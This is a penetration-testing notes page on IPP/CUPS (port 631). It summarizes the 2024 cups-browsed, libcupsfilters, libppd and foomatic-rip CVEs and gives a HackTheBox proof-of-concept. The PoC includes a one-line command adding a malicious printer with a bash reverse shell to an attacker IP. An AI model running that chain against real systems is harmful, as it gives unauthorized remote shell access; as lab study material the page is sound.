 ```yaml
---
description: Internet Printing Protocol
icon: print
---
```


# IPP

<details>

<summary><mark style="color:orange;"><strong><code>CUPS</code></strong><strong><code> </code></strong><strong><code>Common UNIX Printing System)</code></strong></mark></summary>

* <mark style="color:purple;">It uses</mark> <mark style="color:orange;">**`UDP`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`TCP`**</mark> <mark style="color:purple;">**on Port**</mark> <mark style="color:orange;">**`631`**</mark>

{% hint style="danger" %}
### <mark style="color:purple;">`Vulnerabilities`</mark>

#### [<mark style="color:red;">**`CVE-2024-47176`**</mark>](https://nvd.nist.gov/vuln/detail/CVE-2024-47176)

* <mark style="color:orange;">**`cups-browsed`**</mark><mark style="color:purple;">, the service that typically listens on all interfaces</mark> <mark style="color:orange;">**`UDP 631`**</mark><mark style="color:purple;">, is what allows adding a printer to a machine remotely. This vulnerability allows any attacker who can reach this machine to trigger a</mark> <mark style="color:orange;">**`“Get-Printer-Attributes” IPP`**</mark> <mark style="color:purple;">request being sent to an attacker-controlled URL.</mark>

#### [<mark style="color:red;">**`CVE-2024-47076`**</mark>](https://nvd.nist.gov/vuln/detail/CVE-2024-47076)&#x20;

* <mark style="color:orange;">**`libcupsfilters`**</mark> <mark style="color:purple;">is responsible for handling the</mark> <mark style="color:orange;">**`IPP`**</mark> <mark style="color:purple;">attributes returned from the request. These are written to a temporary</mark> <mark style="color:orange;">**`Postscript Printer Description (PPD)`**</mark> <mark style="color:purple;">file without sanitization, allowing malicious attributes to be written.</mark>

#### [<mark style="color:red;">**`CVE-2024-47175`**</mark>](https://nvd.nist.gov/vuln/detail/CVE-2024-47175)

* <mark style="color:orange;">**`libppd`**</mark> <mark style="color:purple;">is responsible for reading a temporary</mark> <mark style="color:orange;">**`PPD`**</mark> <mark style="color:purple;">file and turning that into a printer object on the system. It also doesn’t sanitize when reading, allowing for injection of attacker controlled data.</mark>

#### [<mark style="color:red;">**`CVE-2024-47177`**</mark>](https://nvd.nist.gov/vuln/detail/CVE-2024-47177)

* <mark style="color:purple;">This vulnerability in</mark> <mark style="color:orange;">**`cups-filters`**</mark> <mark style="color:purple;">allows for loading a printer using the</mark> <mark style="color:orange;">**`foomatic-rip`**</mark> <mark style="color:purple;">print filter, which is a universal converter for transforming PostScript or PDF data into the format that the printer can understand. It has long had issues with command injection, and has been limited to manual installs / configurations only.</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:orange;">`POC`</mark>

* <mark style="color:green;">**`Ippsec`**</mark> <mark style="color:purple;">has a</mark> [<mark style="color:orange;">**`POC`**</mark>](https://github.com/ippsec/evil-cups) <mark style="color:purple;">that is used on the</mark> <mark style="color:green;">**`evilcups`**</mark> <mark style="color:purple;">machine from</mark> <mark style="color:green;">**`HackThebox`**</mark><mark style="color:purple;">:</mark>

{% code title="Add the malicious printer" overflow="wrap" %}
```bash
python evil-cups.py 10.10.14.6 10.10.11.40 'nohup bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"&'
```
{% endcode %}

* <mark style="color:purple;">Now, on the server select the the malicious printer and  trigger the option</mark> <mark style="color:orange;">**`Print Test Page`**</mark>
* <mark style="color:purple;">The default path for printed jobs is</mark> <mark style="color:orange;">**`/var/spool/cups`**</mark>
{% endhint %}

</details>
